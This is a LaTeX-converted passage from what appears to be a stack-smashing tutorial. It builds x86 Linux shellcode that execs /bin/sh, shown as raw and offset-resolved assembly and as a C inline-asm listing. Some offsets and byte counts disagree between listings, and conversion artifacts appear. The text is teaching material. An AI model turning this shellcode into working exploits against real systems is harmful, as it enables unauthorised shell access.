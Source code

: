 \documentclass[10pt]{article}
\begin{document}
\begin{CJK}{UTF8}{bsmi}
\begin{verbatim}
jmp    offset-to-call           # 2 bytes
popl   %esi                     # 1 byte
movl   %esi,array-offset(%esi)  # 3 bytes
movb   $0x0,nullbyteoffset(%esi)# 4 bytes
movl   $0x0,null-offset(%esi)   # 7 bytes
movl   $0xb,%eax                # 5 bytes
movl   %esi,%ebx                # 2 bytes
leal   array-offset(%esi),%ecx  # 3 bytes
leal   null-offset(%esi),%edx   # 3 bytes
int    $0x80                    # 2 bytes
movl   $0x1, %eax               # 5 bytes
movl   $0x0, %ebx               # 5 bytes
int    $0x80                    # 2 bytes
call   offset-to-popl           # 5 bytes
/bin/sh string goes here.
\end{verbatim}

Calculating the offsets from jmp to call, from call to popl, from the string address to the array, and from the 
string address to the null long word, we now have: 


\begin{verbatim}
jmp    0x26                     # 2 bytes
popl   %esi                     # 1 byte
movl   %esi,0x8(%esi)           # 3 bytes
movb   $0x0,0x7(%esi)           # 4 bytes
movl   $0x0,0xc(%esi)           # 7 bytes
movl   $0xb,%eax                # 5 bytes
movl   %esi,%ebx                # 2 bytes
leal   0x8(%esi),%ecx           # 3 bytes
leal   0xc(%esi),%edx           # 3 bytes
int    $0x80                    # 2 bytes
movl   $0x1, %eax               # 5 bytes
movl   $0x0, %ebx               # 5 bytes
int    $0x80                    # 2 bytes
call   -0x2b                    # 5 bytes
.string \"/bin/sh\"             # 8 bytes
\end{verbatim}



Looks good. To make sure it works correctly we must compile it and run it. But  there is a problem. Our code 
{\em modifies itself}  [where?],  but most operating system mark code pages read only. To get around this restriction 
we must place the code we wish to execute in the stack or data segment, and transfer control to it. To do so we 
will place our code in a global array in the data segment. We need first a hex representation of the binary code. 
Lets compile it first, and then use gdb to obtain it.

\begin{lstlisting}[caption=shellcodeasm.c]
void main() 
{
__asm__
("
jmp    0x2f                     # 3 bytes
popl   %esi                     # 1 byte
movl   %esi,0x8(%esi)           # 3 bytes
movb   $0x0,0x7(%esi)           # 4 bytes        
movl   $0x0,0xc(%esi)           # 7 bytes
movl   $0xb,%eax                # 5 bytes
movl   %esi,%ebx                # 2 bytes
leal   0x8(%esi),%ecx           # 3 bytes
leal   0xc(%esi),%edx           # 3 bytes
int    $0x80                    # 2 bytes
movl   $0x1, %eax               # 5 bytes
movl   $0x0, %ebx               # 5 bytes
int    $0x80                    # 2 bytes
call   -0x2f                    # 5 bytes
.string \"/bin/sh\"             # 8 bytes
");
}
\end{lstlisting}


\end{CJK}
\end{document}
